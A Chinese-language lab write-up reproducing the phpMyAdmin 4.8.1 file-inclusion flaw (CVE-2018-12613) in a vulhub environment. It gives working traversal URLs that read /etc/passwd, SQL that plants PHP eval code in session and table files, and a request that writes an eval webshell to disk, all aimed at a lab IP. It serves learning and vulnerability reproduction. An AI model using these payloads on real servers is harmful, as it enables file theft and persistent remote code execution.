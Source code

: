 ## phpmyadmin 4.8.1 远程文件包含漏洞（CVE-2018-12613）

phpMyAdmin是一套开源的、基于Web的MySQL数据库管理工具。其index.php中存在一处文件包含逻辑，通过二次编码即可绕过检查，造成远程文件包含漏洞。

影响范围 phpmyadmin 4.8.0 & 4.8.1

### 漏洞原理

服务器执行PHP文件时，可以通过文件包含函数加载另一个文件中的PHP代码，并且当PHP来执行，这会为开发者节省大量的时间。

文件包含相关函数

~~~
require()#函数出现错误的时候，会直接报错并退出程序的执行
require_once()#只包含一次
include()#在包含的过程中如果出现错误，会抛出一个警告，程序继续正常运行
include_once()#只包含一次
~~~

文件包含分类:
本地包含:可以进行一些本地的文件读取
远程包含:可以对外网上的文件进行读取

当allow_url_include和allow_url_fopen都开启时，可以通过利用远程url或者`php://`协议直接getshell，即远程文件包含，但allow_url_include在php5.2之后默认为off，利用机会有限。

![image-20220322205046332](TyporaPicture/image-20220322205046332.png)

当`allow_url_include` and `allow_url_fopen`均为off 在**window主机环境**下仍然可以进行远程文件执行，用445端口SMB协议进行远程加载。

其余情况下只能通过控制本地文件进行RCE，[详细php文件包含及其getshell的姿势]( https://xz.aliyun.com/t/5535#toc-5)

回到本漏洞，在index.php中

![image-20220322172325141](TyporaPicture/image-20220322172325141.png)

对用户提交的target参数进行包含，我们可以传入一个本地文件路径去让其包含，就会造成LFI漏洞。但是这个文件要在白名单中并通过校验，[绕过方式文章](https://blog.csdn.net/qq_34444097/article/details/85264686)。

最终构造的payload如下

~~~
/index.php?target=db_sql.php?/../../../../../../../../etc/passwd
#Windows环境下利用需要对?
/index.php?target=db_sql.php%253f/../../../../../../../../tmp/sess_21faa6130eaba2b5e04e313bfacc60d4
~~~



### 漏洞复现

环境 /vulhub/phpmyadmin/CVE-2018-12613

访问`http://your-ip:8080/index.php?target=db_sql.php%253f/../../../../../../../../etc/passwd`，可见`/etc/passwd`被读取，说明文件包含漏洞存在。

- session文件包含

执行 SQL语句 SELECT '<?=phpinfo()?>'

查看session值，包含session文件

![image-20220322174044496](TyporaPicture/image-20220322174044496.png)

![image-20220322174309891](TyporaPicture/image-20220322174309891.png)

~~~
http://101.43.138.109:8080/index.php?target=db_sql.php%253f/../../../../../../../../tmp/sess_21faa6130eaba2b5e04e313bfacc60d4
~~~

![image-20220322174442754](TyporaPicture/image-20220322174442754.png)

~~~
select "<?php eval($_REQUEST[s]);?>"
~~~

~~~
http://101.43.138.109:8080/index.php?target=db_sql.php%253f/../../../../../../../../tmp/sess_8d77544f0a245337f270615290e95506&s=phpinfo();
~~~

执行命令

![image-20220322194831966](TyporaPicture/image-20220322194831966.png)

写webshell

~~~
http://101.43.138.109:8080/index.php?target=db_sql.php%253f/../../../../../../../../tmp/sess_8d77544f0a245337f270615290e95506&s=fputs(fopen(%27x.php%27,%27w%27),%27%3C?php%20@eval($_POST[pwd])?%3E%27);
~~~

- 利用数据库创建shell

创建一个数据表，表名任意。字段名为<?php @eval($_GET['s']);?>

![image-20220322200619589](TyporaPicture/image-20220322200619589.png)

查询绝对路径

~~~
show variables like '%datadir%'
------------------------------
datadir    /var/lib/mysql/
~~~

数据库文件包含

~~~
http://101.43.138.109:8080/index.php?target=db_sql.php%253f/../../../../../../../../var/lib/mysql/test/webshell.frm&s=phpinfo();
~~~

> 结果发现靶机上并没有mysql这个路径，仔细一想这个环境是站库分离的。。。

![image-20220322201308642](TyporaPicture/image-20220322201308642.png)

写到另一个容器里面了

![image-20220322201519467](TyporaPicture/image-20220322201519467.png)

